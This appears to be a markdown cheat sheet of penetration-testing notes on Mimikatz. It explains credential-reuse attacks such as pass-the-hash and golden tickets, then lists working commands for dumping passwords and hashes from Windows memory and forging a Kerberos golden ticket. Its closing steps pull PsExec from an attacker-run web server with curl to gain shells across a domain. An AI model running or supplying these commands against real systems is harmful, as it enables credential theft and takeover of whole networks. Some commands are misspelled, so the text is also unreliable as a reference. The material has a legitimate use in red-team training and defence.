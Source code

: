 # [Mimikatz](https://www.varonis.com/blog/what-is-mimikatz/)

 - [Latest executable version](https://github.com/gentilkiwi/mimikatz/releases)
 
 - [Unofficail command reference and guide](https://adsecurity.org/?page_id=1821)
 
 - [Offical Mimikatz Wiki](https://github.com/gentilkiwi/mimikatz/wiki)

Mimikatz is an open-source application that allows users to view and save authentication credentials 


    Pass-the-Hash: Windows used to store password data in an NTLM hash. Attackers use Mimikatz to pass that exact hash string to the target computer to login. Attackers don’t even need to crack the password, they just need to use the hash string as is. It’s the equivalent of finding the master key to a building on the floor. You need that one key to get into all the doors.
    
    Pass-the-Ticket: Newer versions of windows store password data in a construct called a ticket.  Mimikatz provides functionality for a user to pass a kerberos ticket to another computer and login with that user’s ticket. It’s basically the same as pass-the-hash otherwise.
    
    Over-Pass the Hash (Pass the Key): Yet another flavor of the pass-the-hash, but this technique passes a unique key to impersonate a user you can obtain from a domain controller.
    
    Kerberos Golden Ticket: This is a pass-the-ticket attack, but it’s a specific ticket for a hidden account called KRBTGT, which is the account that encrypts all of the other tickets. A golden ticket gives you domain admin credentials to any computer on the network that doesn’t expire.
    
    Kerberos Silver Ticket: Another pass-the-ticket, but a silver ticket takes advantage of a feature in Windows that makes it easy for you to use services on the network. Kerberos grants a user a TGS ticket, and a user can use that ticket to log into any services on the network. Microsoft doesn’t always check a TGS after it’s issued, so it’s easy to slip it past any safeguards.
    
    Pass-the-Cache: Finally an attack that doesn’t take advantage of Windows! A pass-the-cache attack is generally the same as a pass-the-ticket, but this one uses the saved and encrypted login data on a Mac/UNIX/Linux system.


    privilege::debug
   
   - We want to see "20 OK"
   
   - This is to check that we can bypass memory protection
   
    log nameoflog.log
    
  To log what we do.
   
   The sekursla module in Mimikatz lets you dump passwords from memory. To use the commands in the sekurlsa module, you must have Admin or SYSTEM permissions.

    sekurlsa::logonpassword

  - Notes:

        wdigest: Old way Windows stored passwords in memory from 7 and prior. Passwords were stored in clear text here. 8+ fixed this to be hashed by turing off the feature. Mimikatz can turn it back on. Once back on a new logon session will be need to occur.

lsadump::sam /patch

lsadump::lsa /patch


# Golden Ticket Attack

If you obtain the hash for the account that creates Kerberos tickets, then we can generate KTGT.
If this is achieved we have complete access to the domain and every machine.

**Exploit**

    lsadump::lda /inject /name:<kerberos ticket granting account>
    
     You want to grab the SID of the domian and the NTLM hash of the account.
     
    kerberose::golden /User:<account name, existing or not> /domain:<domian> /sid:<domain SID> /<kerberos TGT account name>:<NTLM hash> /id:500 /ptt
    
      /id   #account RID
      
      /ptt  #Pass the hash
      
      
     If successful run:
     
     misc:cmd
     
   You now have an admin shell on the domain controller. Here are a few followups for persistence:
   
   - Interact with machines
   
         <command> \\<ip>\c$
         
   - Upload [psexec.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/psexechttps://docs.microsoft.com/en-us/sysinternals/downloads/psexec
   ) to get full shells on other domain systems.
   
        Python web server on attacker under /user/share/windows-binaries. 
        
        Then on windows:
             
         curl http://<ip>:8000/PsExec.exe -O psexec.exe    
   
         psexec.exe \\<machine name or IP> cmd.exe  #run in golden ticket shell
         
         Note that this can take a while
   
   - Create a domain admin account
   
   - Create silver ticket
      
